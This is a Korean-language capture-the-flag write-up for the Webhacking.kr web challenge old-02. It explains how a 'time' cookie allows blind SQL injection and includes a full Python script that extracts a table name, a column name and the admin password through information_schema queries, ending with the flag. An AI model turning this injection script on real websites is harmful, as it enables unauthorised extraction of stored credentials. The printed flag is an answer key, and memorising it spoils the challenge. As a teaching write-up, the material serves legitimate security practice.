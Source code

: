 # old-02

**Category:** Web

**Source:** Webhacking.kr

**Points:** 500

**Author:** galaxy(김경환)

**Description:** 

> ![img](resource/prob.png)

## Point
blind sql injection, information_schema

## Write-up

메인페이지에는 특별한 정보가 안보입니다.

![img](reousrce/source.png)

source를 보니 주석처리로 된 시간이 특이하게 있습니다.

밑의 주석에서는 admin.php로 접근하라고 hint를 주었습니다.

![img](resource/admin.png)

admin페이지에는 password를 입력하는 곳이 있습니다.

sql injection을 했지만 먹히지 않습니다.

sql injection은 아닌거 같아 다른것을 찾아보았습니다.

![img](resource/cookie.png)

cookie를 보면 time이라는 값이 들어있습니다.

cookie의 값을 수정하니 메인 페이지의 주석에 있는 시간이 수정됐습니다.

![img](resource/burp.png)

테스트로 간단한 sql문을 입력하니 동작하는 것을 볼 수 있습니다.

cookie에 있는 time에 sql문을 입력해서 원하는 정보를 가져올 수 있습니다.

찾아야하는 값은 passwd인데 db안에 있을거라 유추 했습니다.

여기서 필요한 부분이 passwd를 가지고 있는 table의 이름과, column명이 필요합니다.

information_schema db안에서 table명과 column명을 찾을 수 있습니다.

information_schema.tables에서 table명을 알아내야 하는데 너무 많은 table이 있었고, 나오는 결과값을 출력할 수는 없었습니다. 다만 숫자를 출력하면 주석에 시간으로 나타나서 알 수 있습니다.

table이름에 admin이 포함되있지 않나 하고

select count(table_name) from information_schema.tables where table_name like 'admin%'

위와 같은 query를 보냈습니다.

1이 출력되어서 admin이 포함된 table이 한개만 존재한다는 것을 알았습니다.

그 이후로는 아래의 python 코드를 작성해서 exploit했습니다.

```python
import string
import requests 

table_name=''
column_name=''
pw=''
length_table_name=0
length_column_name=0
length_pw=0

success='2070-01-01 09:00:01'
area='_'+string.letters[:26]

#find length_table_name
URL='https://webhacking.kr/challenge/web-02/'
cookies={'PHPSESSID':'93m4d3r35rqn9222h9qinat6fb','time':"(select length(table_name) from information_schema.tables where table_name like 'admin%')"}
response=requests.get(URL, cookies=cookies)

print('length of table_name is '+ response.text.split('--')[1].split(':')[2][:-1])
length_table_name=13

#find table_name
for i in range(1,14):
	for c in area:
		cookies={'PHPSESSID' : '93m4d3r35rqn9222h9qinat6fb','time':"12345 and '"+c+"'=(select mid(table_name,"+str(i)+",1) from information_schema.tables where table_name like 'admin%')"}
		response = requests.get(URL,cookies=cookies) 

		if success in response.text:
			table_name+=c
			break

table_name='admin_area_pw'
print('table name is '+table_name)

#find length_column_name
cookies={'PHPSESSID':'93m4d3r35rqn9222h9qinat6fb','time':"(select length(column_name) from information_schema.columns where table_name like '"+table_name+"')"}
response=requests.get(URL, cookies=cookies)

print('length of table_name is '+ response.text.split('--')[1].split(':')[2][:-1])
length_column_name=2

#find column_name
for i in range(1,3):
	for c in area:
		cookies={'PHPSESSID' : '93m4d3r35rqn9222h9qinat6fb','time':"12345 and '"+c+"'=(select mid(column_name,"+str(i)+",1) from information_schema.columns where table_name like '"+table_name+"')"}
		response=requests.get(URL,cookies=cookies)

		if success in response.text:
			column_name+=c
			break
column_name='pw'
print('column name is '+column_name)

#find length_pw
cookies={'PHPSESSID':'93m4d3r35rqn9222h9qinat6fb','time':"(select length("+column_name+") from "+table_name+")"}
response=requests.get(URL, cookies=cookies)

print('length of pw is '+ response.text.split('--')[1].split(':')[2][:-1])
length_pw=17

#find pw
for i in range(1,18):
	for c in area:
		cookies={'PHPSESSID' : '93m4d3r35rqn9222h9qinat6fb','time':"12345 and '"+c+"'=(select mid("+column_name+","+str(i)+",1) from "+table_name+")"}
		response=requests.get(URL,cookies=cookies)

		if success in response.text:
			pw+=c
			break
print('pw is '+pw)
```
![img](resource/pwn.png)

Flag : pw는 kudos_to_beistlab 입니다.
